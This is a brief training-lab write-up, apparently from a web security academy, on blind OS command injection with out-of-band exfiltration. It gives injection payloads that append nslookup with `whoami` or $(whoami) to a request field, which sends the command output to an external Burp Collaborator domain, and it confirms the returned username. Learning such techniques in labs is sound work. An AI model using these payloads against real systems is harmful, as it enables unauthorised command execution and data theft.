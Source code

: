 <h2>Lab Solution</h2>

This lab is basically Lab 4 but adding "whoami" command. So picking up from where we left off on Lab 4.

- Instead of using: "``` & nslookup zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #```"

- Add "whoami" command: " & nslookup``` `whoami` .```zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #".

  Or
  
- Add "whoami" command: " & nslookup ```$(whoami) .```zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #".

- Remember to Highlight the command and press "Ctrl + U" to encode it.

- Navigate to "Burp Collaborator client". Click on "Poll now".

<p align="center">
<br/>
<img src="https://i.imgur.com/U2xESge.png" height="90%" width="90%" alt=""/>
<br />

- The two new output display: "peter-tZXgy0". Therefore it's a success.
